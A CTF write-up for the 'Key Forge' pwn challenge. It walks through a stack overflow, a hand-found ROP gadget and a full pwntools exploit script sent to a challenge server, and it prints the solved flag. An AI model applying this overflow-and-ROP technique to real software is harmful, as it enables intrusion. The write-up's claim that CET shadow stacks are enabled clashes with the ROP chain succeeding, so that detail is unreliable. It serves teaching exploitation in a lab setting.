






# CTF Writeup: Key Forge (pwn-07)

**Category:** Pwn
**Difficulty:** Intermediate

## Challenge Overview

*Key Forge* is a beautifully constructed 64-bit **Return-Oriented Programming (ROP)** challenge that breaks players out of their `ret2win` muscle memory. Instead of just popping a shell, this challenge forces us to build a precise ROP chain to dynamically forge a cryptographic key in memory, pivot registers, and bypass a **Seccomp** sandbox, all while avoiding a frustrating output-buffering trap.

## 1. Initial Analysis

Before diving into the binary, we check the standard protections using `checksec`:

```bash
checksec --file=./vuln
```

> 

**Protections:**

- **Arch:** `amd64-64-little`
- **RELRO:** Full RELRO (GOT overwrites are impossible)
- **Stack:** No canary found (Buffer overflows are trivial)
- **NX:** NX enabled (Stack is not executable; no shellcode)
- **PIE:** No PIE (Addresses in the binary are static)
- **CET:** SHSTK & IBT Enabled (Hardware-enforced shadow stacks)

With **NX** and **Full RELRO** enabled, but **PIE** and **Canaries** disabled, this binary screams *Classic ROP*.

## 2. Reverse Engineering

Opening the binary in our favorite decompiler (like **Ghidra** or **IDA**) or examining it with terminal tools allows us to break the program down into its core components.

### The Seccomp Sandbox

Looking at `main()`, the program immediately generates a random 8-byte `global_secret` from `/dev/urandom`, reads the flag into a global buffer (`flag_buf`), and XOR-encrypts it in memory.

Before we can interact with the program, it calls `install_seccomp()`. Dumping the rules using `seccomp-tools` reveals a strict whitelist that completely blocks `execve`.

```bash
seccomp-tools dump ./vuln
```

> 

Even if we could write shellcode, we **cannot** pop `/bin/sh`. We are forced to play by the binary's rules.

### The Vulnerability

The interaction happens inside the `vuln()` function, which we can inspect using `objdump`:

```bash
objdump -d -M intel ./vuln | grep -A 15 "<vuln>:"
```

> 

This is a textbook **buffer overflow**. We have a 64-byte buffer, but `read()` allows us to write up to **200 (0xc8) bytes**. Because there is no stack canary, we can easily overwrite the saved **Return Instruction Pointer (RIP)** to hijack execution. The offset to RIP is **72 bytes** (`64 bytes` for `buf` + `8 bytes` for the saved `RBP`).

### The Goal & The Key Generator

The binary contains a function called `unlock_vault(long key)`. If we pass it the correct key, it decrypts `flag_buf` and prints the flag. However, it strictly checks our key against `global_secret ^ 0x1812`. Since `global_secret` is randomized at runtime, we **cannot hardcode** the key.

The author gives us a way out via the `forge_key(long magic_word)` function. If we call this function and pass `0xcafebabe` as the argument (`RDI`), it calculates `global_secret ^ 0x1812` and returns the exact key we need in the `RAX` register.

## 3. Exploit Strategy & Traps

To capture the flag, we need to carefully navigate three distinct traps the author placed in our way.

### Trap 1: The Hidden Pivot Gadget

Because `forge_key` leaves the key in `RAX`, but `unlock_vault` expects its argument in `RDI`, we need a way to move the value. The binary includes a function called `gadget_loot()`, which contains raw inline assembly with various `pop` and `mov` instructions.

```bash
gdb -q -ex 'set disassembly-flavor intel' -ex 'disas gadget_loot' -ex 'quit' ./vuln
```

> 

Standard automated tools like `ROPgadget` or `ropper` often fail to properly categorize instructions hidden in inline assembly blocks. If players rely solely on automated outputs, they might miss the crucial `mov rdi, rax ; ret` instruction at `0x401515`. We must **manually search** the ELF for the raw opcode bytes (`\x48\x89\xc7\xc3`).

### Trap 2: Building the Chain

Because **PIE is disabled**, we can hardcode all addresses. Our ROP chain must flow exactly like this:

- `pop rdi ; ret` (`0x401513`) — Load `0xcafebabe` into `RDI`
- `forge_key` (`0x401393`) — Calculates the dynamic key and stores it in `RAX`
- `mov rdi, rax ; ret` (`0x401515`) — Pivots the generated key from `RAX` into `RDI`
- `unlock_vault` (`0x4014c5`) — Consumes `RDI`, decrypts the flag, and prints it

We can generate the payload and inspect it sitting perfectly on the stack right before execution:

```bash
# Generate the raw payload
python3 -c 'from pwn import *; open("payload.bin", "wb").write(b"A"*64 + b"B"*8 + p64(0x401513) + p64(0xcafebabe) + p64(0x401393) + p64(0x401515) + p64(0x4014c5))'

# Inspect the stack in GDB right at vuln's return instruction
gdb -q ./vuln
(gdb) break *vuln+61
(gdb) run < payload.bin
(gdb) x/6gx $rsp
```

> 

### Trap 3: The Buffer Flush Illusion (SIGSEGV)

This is the **most brilliant trap** in the challenge. Our ROP chain ends precisely at `unlock_vault`. After the function prints the flag, it hits its own `ret` instruction. Because we didn't chain an `exit(0)` address after it, the program attempts to return to garbage memory and instantly throws a **SIGSEGV** (Segmentation Fault).

```bash
gdb -q ./vuln
(gdb) run < payload.bin
```

> 

If a player uses pwntools' standard `io.interactive()` at the end of their script, the library will see the process crash and instantly tear down the connection. This **swallows the stdout buffer** before the flag is printed to the terminal, making the player think their exploit failed. We must use `io.recvall(timeout=3)` to hang on the pipe and catch the flushed buffer as the process dies.

## 4. Full Exploit Script

Here is the final pwntools Python script used to bypass all traps and solve the challenge:

```python
#!/usr/bin/env python3
"""
Key Forge — pwntools exploit
ROP chain:
  1. pop rdi ; ret         — load 0xcafebabe into RDI
  2. forge_key()           — returns global_secret ^ 0x1812 in RAX
  3. mov rdi, rax ; ret    — move RAX → RDI  (hidden in gadget_loot)
  4. unlock_vault()        — prints decrypted flag
"""
from pwn import *

# ─── configuration ─────────────────────────────────────────────────────────────
BINARY  = "./vuln"
HOST    = "167.99.141.109"
PORT    = 10103

elf = context.binary = ELF(BINARY)
context.log_level = "info"

# ─── connect ───────────────────────────────────────────────────────────────────
if args.REMOTE:
    io = remote(HOST, PORT)
else:
    io = process(BINARY)

# ─── find gadgets ──────────────────────────────────────────────────────────────
rop = ROP(elf)

# Search raw bytes: 5f (pop rdi)  c3 (ret) inside gadget_loot
pop_rdi = next(elf.search(b"\x5f\xc3"))
log.info(f"pop rdi ; ret  @ {hex(pop_rdi)}")

# Search raw bytes: 48 89 c7 c3 (mov rdi, rax ; ret) inside gadget_loot
gadget_bytes = b"\x48\x89\xc7\xc3"
mov_rdi_rax = next(elf.search(gadget_bytes))
log.info(f"mov rdi, rax ; ret  @ {hex(mov_rdi_rax)}")

# Function addresses (no PIE → fixed)
forge_key    = elf.sym["forge_key"]
unlock_vault = elf.sym["unlock_vault"]
log.info(f"forge_key    @ {hex(forge_key)}")
log.info(f"unlock_vault @ {hex(unlock_vault)}")

# ─── build ROP payload ────────────────────────────────────────────────────────
MAGIC = 0xcafebabe

# Padding: 64-byte local buf + 8-byte saved RBP
padding = b"A" * 64 + b"B" * 8

chain = flat(
    pop_rdi,
    MAGIC,
    forge_key,
    mov_rdi_rax,
    unlock_vault,
)

payload = padding + chain

# ─── send & receive ───────────────────────────────────────────────────────────
# Wait for the exact prompt to avoid hanging the script
io.recvuntil(b"Input: ")
io.send(payload)

# Use recvall() to catch the flag buffer before the SIGSEGV destroys the pipe!
flag = io.recvall(timeout=3)
log.success(f"Flag: {flag.decode(errors='replace').strip()}")
```

## 5. Execution

Running the script dynamically locates our hidden gadgets, executes the register pivot perfectly, and captures the buffer right as the binary segfaults, revealing our flag.

```bash
python3 solve.py REMOTE
```

> 

```text
FLAG{k3y_f0rg3d_w1th_r0p_ch41ns_4r3_sharp}
```


